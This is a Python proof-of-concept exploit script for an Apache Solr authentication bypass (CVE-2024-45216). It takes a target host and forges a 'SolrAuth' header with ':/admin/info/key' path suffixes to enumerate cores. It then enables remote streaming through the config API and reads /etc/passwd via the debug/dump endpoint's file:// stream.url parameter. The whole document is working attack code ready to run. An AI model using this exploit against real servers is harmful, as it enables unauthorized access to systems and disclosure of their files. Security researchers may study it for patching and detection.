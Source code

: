 # testie
# Title: Improper Authentication vulnerability in Apache Solr ( CVE-2024-45216 )
# Date : 2024-12-01
# Author: Dong Cong
#         
#         ZXJpYy5jb25nZG9uZ0BnbWFpbC5jb20=
# 
# CVE : 2024-45216

#!/usr/bin/python3

import requests
import json
import argparse
import warnings

url0 = '/solr/admin/cores:/admin/info/key?indexInfo=false&wt=json'

url1 = '/solr/{}/config:/admin/info/key'
url2 = '/solr/{}/debug/dump:/admin/info/key?param=ContentStreams&stream.url=file:///etc/passwd'


warnings.filterwarnings("ignore")

parser=argparse.ArgumentParser()
parser.add_argument("--host", help="input the vulnerable host", type=str)
args = parser.parse_args()

# http://xx.xx.xx.xx:8983
host = args.host
print(host)

headers1 = {
    'SolrAuth': 'test',
}

params1 = {
    'indexInfo': 'false',
    'wt': 'json',
}

headers2 = {
    'SolrAuth': 'test',
    'Content-Type': 'application/json',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    # 'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6',
    'Connection': 'close',
}

headers3 = {
'SolrAuth': 'test',
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82Safari/537.36',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
# 'Accept-Encoding': 'gzip, deflate',
'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6',
'Connection': 'close',
}

json_data = {
    'set-property': {
        'requestDispatcher.requestParsers.enableRemoteStreaming': True,
    },
}    

try:
    response = requests.post(
        f'{host}{url0}',
        params=params1,
        headers=headers1,
        timeout=10
    )
    if response.status_code == 200 and "application/json" in response.headers.get("Content-Type", ""):
        
        print(f"{host} ---> {len(response.text)} \n\n")
        print(response.text)  
        print('\n\n\n' + '*'*78 + '\n\n\n')

        data1 = None
        data1 = json.loads(response.text)

        if data1 != None:

            status_data = data1.get("status", {})

            for core_name, core_details in status_data.items():

                print(f"Core Name: {core_name}")
                temp_url = url1.format(core_name)

                response = requests.post(f'{host}{temp_url}', headers=headers2, json=json_data,timeout=10)                    

                if response.status_code == 200 and len(response.text) < 200:
                    print(f'{host}{temp_url} ---> {len(response.text)} \n\n')
                    print(response.text)  
                    print('\n\n\n' +'*'*78 + '\n\n\n')                        

                    temp_url = url2.format(core_name)

                    response = requests.post(f'{host}{temp_url}', headers=headers2,timeout=10)

                    if response.status_code == 200:
                        
                        print(f'{host}{temp_url} ---> {len(response.text)} \n\n')
                        print(response.text)                        

    else:
        pass

except requests.exceptions.HTTPError as http_err:
    pass#print(f"HTTP 错误: {http_err}")
except requests.exceptions.ConnectionError as conn_err:
    pass#print(f"连接错误: {conn_err}")
except requests.exceptions.Timeout as timeout_err:
    pass#print(f"请求超时: {timeout_err}")
except requests.exceptions.RequestException as req_err:
    pass#print(f"请求错误: {req_err}") 
